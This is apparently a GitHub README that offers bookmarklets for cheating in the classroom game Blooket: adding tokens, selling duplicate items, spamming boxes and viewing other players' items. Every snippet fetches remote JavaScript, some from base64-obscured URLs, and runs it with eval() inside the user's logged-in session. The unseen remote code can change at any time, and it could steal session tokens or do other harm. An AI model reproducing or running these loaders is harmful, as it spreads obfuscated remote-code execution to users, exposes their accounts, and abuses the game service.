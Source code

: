 # hacks B) pls star🥲🌟😀




# Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes so cool omg!1 credit to @P1uffy,@GooseterV,scroll down for tutorial)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11! exp also !111
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# spam box!11
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# view all blooks?😳
just all blooks
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/spoofer.js").then((res) => res.text().then((t) => eval(t)))
```
all blooks including the one from tower defense and creates a custom box in market
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/spoofer.js").then((res) => res.text().then((t) => eval(t)))
```
see other people's blook🤯
```js
javascript:fetch("https://raw.githubusercontent.com/GooseterV/Blooket/master/js/blookViewer.js").then((res) => res.text().then((t) => eval(t)))
```
# col funni -1 fps tutorial thing i guess
https://user-images.githubusercontent.com/94798292/142773350-97175967-1b33-42ec-acf0-87f0a88075d0.mp4
